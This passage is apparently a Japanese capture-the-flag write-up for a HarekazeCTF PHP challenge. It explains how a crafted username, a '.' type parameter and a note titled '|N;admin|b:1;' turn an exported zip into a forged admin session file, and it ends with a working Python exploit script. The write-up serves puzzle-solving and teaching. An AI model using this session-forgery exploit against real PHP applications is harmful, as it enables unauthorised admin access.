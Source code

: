 さて、PHP のセッションファイル周りの挙動を確認していきましょう。セッションファイルのファイル名は[必ず `sess_` から始まり](https://github.com/php/php-src/blob/879cd0491399ccfacac0d6ed701d998a65a6cc97/ext/session/mod_files.c#L85)、その後にセッション ID が続きます。セッション ID は [`a-zA-Z0-9,-`](https://github.com/php/php-src/blob/034babbcc193a06c8a8b843ebe96792d6f5e41dc/ext/session/session.c#L340-L345) 以外の文字が含まれている場合には拒否されます。

これを利用すれば、`getuser` が `sess_` を返すようにする (= `sess_` でログインする) ことで `sess_-0123456789abcdef.zip` のようなファイル名で zip を出力させることができます。

また、`$type` には `$_GET['type']` がそのまま入ってきており、例えば `export.php?type=.` にアクセスすると最初にユーザ名等と結合したときのファイル名は `sess_-0123456789abcdef..` になります。その後 `$filename = str_replace('..', '', $filename);` によって `..` が削除されるため、最終的に出力されるファイル名は `sess_-0123456789abcdef` になります。これでファイル名についてはセッションとして読み込ませることができるようなフォーマットになりました。

セッションデータについて挙動を確認します。セッションデータのシリアライズおよびデシリアライズについての設定である [`session.serialize_handler`](https://www.php.net/manual/ja/session.configuration.php#ini.session.serialize-handler) はデフォルトでは `php` に設定されています。この場合には、セッションデータは `(属性名)|(シリアライズされたデータ);` のような形式で、セミコロン区切りで保存されます。

これを利用すれば、`|N;admin|b:1;` のようなデータを生成される zip に含ませる (今回は保存されているノートのタイトルに仕込む) ことでセッションデータを偽造することができます。

これらの作業を自動化すると以下のようになりました。

```python
import re
import requests
URL = 'http://(target)/'

while True:
  # login as sess_
  sess = requests.Session()
  sess.post(URL + 'login.php', data={
    'user': 'sess_'
  })

  # make a crafted note
  sess.post(URL + 'add.php', data={
    'title': '|N;admin|b:1;',
    'body': 'hello'
  })

  # make a fake session
  r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
  sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]

  # get the flag
  r = requests.get(URL + '?page=flag', cookies={
    'PHPSESSID': sessid
  }).content.decode('utf-8')
  flag = re.findall(r'HarekazeCTF\{.+\}', r)

  if len(flag) > 0:
    print(flag[0])
    break
```

実行するとフラグが得られました。
